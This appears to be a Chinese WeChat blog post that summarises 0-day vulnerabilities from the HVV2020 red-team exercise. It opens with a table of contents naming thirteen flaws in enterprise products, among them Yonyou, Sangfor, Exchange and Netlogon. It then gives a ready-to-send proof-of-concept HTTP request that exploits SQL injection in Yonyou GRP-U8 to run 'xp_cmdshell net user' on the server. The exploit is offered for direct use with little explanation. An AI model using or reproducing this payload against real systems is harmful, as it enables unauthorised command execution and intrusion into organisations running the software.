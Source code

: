 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/Nct2VjbRdGgEPtZDn82yTw)

▼

  

更多精彩推荐，请关注我们

▼

HVV2020-0day 总结

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x00 目录

    0x01 用友 GRP-U8 SQL 注入

    0x02 天融信 TopAPP-LB SQL 注入

    0x03 深信服 EDR RCE 漏洞

    0x04 WPS 命令执行漏洞

    0x05 绿盟 UTS 绕过登录

    0x06 齐治堡垒机 RCE

    0x07 泛微云桥任意文件读取

    0x08 Exchange Server 远程代码执行漏洞

    0x09 Apache DolphinScheduler 权限覆盖漏洞 \[CVE-2020-13922\]

    0x10 Netlogon 特权提升漏洞（CVE-2020-1472）

    0x11 activemq 远程代码执行 0day

    0x12 天融信数据防泄漏系统越权修改管理员密码

    0x13 Wordpress File-manager 任意文件上传

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x01 用友 GRP-U8 SQL 注入

    直接上 POC  

```
POST /Proxy HTTP/1.1
Accept: Accept: \*/\*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2313"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRequest></NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><NAME>Data</NAME><DATA format="text">exec xp\_cmdshell 'net user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

```
